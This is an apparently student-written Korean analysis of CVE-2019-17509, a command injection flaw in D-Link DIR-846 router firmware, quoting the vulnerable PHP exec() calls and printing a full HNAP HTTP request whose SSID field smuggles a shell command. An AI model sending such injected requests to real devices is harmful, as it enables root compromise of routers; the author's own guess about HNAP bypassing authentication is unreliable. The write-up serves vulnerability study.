



# CVE-2019-17509 취약점

`아래의 내용들은 긁어모은 정보들을 제 나름대로 해석하고 이해한거라 사실과 거리가 멀 수도 있습니다.`


### 0. 요약

`D-Link사의 Dir-846 제품의 firmware, 100A35에서 RCE(Remote Code Execution) 취약점이 발견되었다.`  

### 1. 대상

문제의 제품 : **D-Link의 Dir 846 이라는 router**



[링크](https://www.dlink.com.br/produto/roteador-dir-846-gigabit-wi-fi-ac1200/)


### 2. 취약점


해당 router 안에 있는 `100A35`라는 firmware에서 취약점이 발견되었다. 다음과 같이 두 가지의 취약점이 발견 되었는데 비슷한 취약점이다.


그 중 조금 더 복잡한 `CVE-2019-17509` 취약점을 살펴보자. 해당 CVE는 다음과 같이 취약점을 설명하고 있다. 

>D-Link DIR-846 devices with firmware 100A35 allow remote attackers to execute arbitrary OS commands as root by leveraging admin access and sending a /HNAP1/ request for SetMasterWLanSettings with shell metacharacters to /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.


해당 Firmware 에서는 소형화되고 최적화된 linux file system인 `squashFS` 를 사용하는 듯 하였다. 그 파일 시스템안에 `/squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php` 를 살펴보면 다음과 같이 parameter로 받는 값이 제대로 parsing이 안 되는 것을 확인할 수 있었다.   

```php            
          .....
11        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
          .....
14        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
          .....
70        $unicode_2 = $data["ssid1"];
71        exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
72        $unicode_5 = $data["ssid0"];
73        exec("ssid_code set B5 0 ssid_tmp2 '" . $unicode_5 . "'", $str, $status2);
          .....
```

위를 보면 trim(), exec()가 쓰였다.
- trim() 은 앞뒤에 있는 공백문자들(space, \t, etc...)을 잘라준다.
- exec() 은 외부 프로그램을 실행기키는 명령어이다.

**ex)**

`SetMasterWLanSettings.php`의 코드는 허용되지 않는 값을 제외시켜주 않아 exec() 으로 공격자가 원하는 명령어를 실행시킬 수도 있다. 아래의 PoC를 보면 이해가 더 쉬울 것이다.

다음은 해당 취약점에 대한 PoC 이다. 

```json
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{
    "SetMasterWLanSettings":
    {
    "wl(0).(0)_enable":"1",
    "wl(0).(0)_ssid":"2.4'&&ifconfig>'/www/a.txt",
    "wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=",
    "wl(0).(0)_crypto":"aestkip",
    "wl(1).(0)_enable":"0",
    "wl(1).(0)_ssid":"5.0",
    "wl(1).(0)_preshared_key":"aXJrZXJPZ2c=",
    "wl(1).(0)_crypto":"none"
    }
}
```

다음과 같은 request를 `SetMasterWLanSettings.php`에서 받을 수 있도록 해준다면 해당 시스템에서 다음 request를 실행할 때, `ifconfig`의 결과가 `/www/a.txt`에 저장될 것이다. 

다음을 단계별로 설명하자면 다음과 같다. 

```php
$data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
==> 
$data["ssid1"] = trim("2.4'&&ifconfig>'/www/a.txt");
------------------------------------------------------
exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
==> 
exec("ssid_code set B2 2 ssid_tmp1 '" . 2.4'&&ifconfig>'/www/a.txt . "'");
=>
exec("ssid_code set B2 2 ssid_tmp1 " . 2.4&&ifconfig>/www/a.txt . "");
```

--- 

이는 다음과 같이 ssid의 입력란에 `2.4'&&id>'/www/a.txt`와 같이 명령어를 입력하면 RCE이 가능하다. 



다음 명령어가 시스템 안에서 돌아가는 이유는 D-Link 사에서는 `HNAP(Home Network Administration Protocol)` 를 사용하는데 이는 attacker가 사용자 인증과정을 지나치게 한다.  자세한 방법과 이유는 잘 모르겠지만 다음과 같은 내용을
[HNAP_Protocol.pdf](HNAP_Protocol.pdf) 에서 찾았다. 다음은  `page 1`의 `Brief Summary of the Invention` 의 내용을 발췌한 것이다. 

>With some examples of the invention, the network device management tool may alternately or additionally permit a client running on a seperate computing device to reliably obtain information about the network device hosting the network device management tool, and then configure the network device for use on the network.

D-Link 사에서 client에 다음과 같이 configure 권환을 준 것이 원인이 아닌가 한다.


### [출처]

소스코드, PoC 
- https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/vuls_info.md

CVE 정보 
- https://www.cvedetails.com/cve/CVE-2019-17509/

- http://www.wins21.co.kr/mobile/blog/blog_view.html?t=31&num=194

HNAP 

- https://dl.packetstormsecurity.net/papers/attack/dlink_hnap_captcha.pdf

- https://web.archive.org/web/20130706175454/http://www.sourcesec.com/2009/05/12/d-link-captcha-partially-broken/

- [HNAP_Protocol.pdf](HNAP_Protocol.pdf)
